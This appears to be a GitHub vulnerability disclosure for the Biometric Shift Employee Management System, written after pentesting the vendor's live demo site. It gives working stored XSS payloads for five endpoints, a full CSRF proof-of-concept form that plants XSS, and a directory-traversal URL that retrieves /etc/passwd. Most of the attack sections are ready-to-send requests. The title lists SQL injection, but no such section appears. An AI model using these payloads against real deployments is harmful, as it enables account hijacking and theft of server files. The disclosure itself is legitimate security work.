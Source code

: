 ### Biometric Shift Employee Management System- the lastest version - SQL Injection/Stored-XSS/CSRF/Arbitrary-File-Download

Well,  when I pentest the official demo site of Biometric Shift Employee Management System, I found some vulnerabilities here.

##### Stored-XSS 

#### XSS1

```
https://www.shiftsystems.net/demo/index.php?user=ajax
```

POST parameters:

```
SavedNewEmpData=&First_Name=52pojie&Last_Name=jack'"><img src=x onerror=prompt(/xss/)><'"&Email=test2@baidu.com&Gender=male&Password=asd123&Confirm_Password=asd123&Department=6&Emp_Code=123215
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss1.png)

#### XSS2

```
https://www.shiftsystems.net/demo/index.php?user=expenses
```

POST parameters:

```
employee_id=92&expense_name=%27%22%3E%3Cimg++src%3Dx+onerror%3Dalert%28%2Fxss2%2F%29%3E%3C%27%22&expense_desc=%27%22%3E%3Cimg++src%3Dx+onerror%3Dalert%28%2Fxss3%2F%29%3E%3C%27%22&amount=123213&date=12%2F12%2F2017&submit_expense=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss2.png)
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss3.png)

#### XSS3

```
https://www.shiftsystems.net/demo/index.php?user=addition_deduction
```

POST parameters:

```
employee_code=1235&addition_type_id=1&amount=12312%27%22%3E%3Cimg+src%3Dx+onerror%3Dprompt%28%2Fxss4%2F%29%3E%3C%27%22&date=11%2F30%2F2017&submit_addition=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss4.png)

#### XSS4

```
https://www.shiftsystems.net/demo/index.php?user=competency_criteria
```
POST parameters:

```
category=&new_category=&criteria=defds%27%22%3E%3Cimg+src%3Dx+onerror%3Dalert%28%2Fxss6%2F%29%3E%3C%27%22&target_score=45&edit_criteria_id=1&edit_criteria=
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss6.png)

#### XSS5

```
https://www.shiftsystems.net/demo/index.php?user=edit_holiday&editid=x
```
POST parameters:

```
------WebKitFormBoundary52ESQlr0AU5OCjNc
Content-Disposition: form-data; name="holiday_name"

Holiday123'"><img src=x onerror=alert(7)><'"
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/xss7.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://www.shiftsystems.net/demo/index.php?user=edit_holiday&editid=1" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="setting&#95;ip" value="63892f9e5aa65f3adfaaf5a8e687507f5bdd7f218a71b3653ea84ad78752c0fcd9957622a18fc2e149675457d4f71df9b47242b13cfc624a0491d744da8aa3877d40a804eabd6c852abe72bb79a851e9a3d4c951d3945ca8be78d9901c81515d1d6e64d4f18943b8b25992d3c3bc4f19a5b0fde3c029ee79f4b3bc9c7553a92e0b5a6ffe875c56ae123e2961645949d5be0b9f16172&#46;96&#46;196&#46;108ChromeWindows&#32;10" />
      <input type="hidden" name="holiday&#95;name" value="Holiday123&apos;&quot;&gt;&lt;img&#32;src&#61;x&#32;onerror&#61;alert&#40;&#47;xss7&#47;&#41;&gt;&lt;&apos;&quot;" />
      <input type="hidden" name="date&#95;from" value="07&#45;09&#45;2017" />
      <input type="hidden" name="date&#95;to" value="23&#45;09&#45;2017" />
      <input type="hidden" name="description" value="suddnly&#32;My&#32;&#32;mom&#32;Is&#32;hospitelized&#32;So&#32;" />
      <input type="hidden" name="update&#95;holiday" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.


#### Arbitrary-File-Download

Weak link here:
```
https://www.shiftsystems.net/demo/index.php?user=download_form&form_file_name=../../../../../../../../../../../etc/passwd
```

Well, you can see,  we've download the passwd file now！


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Biometric-Shift-Employee-Management-System/download.png)
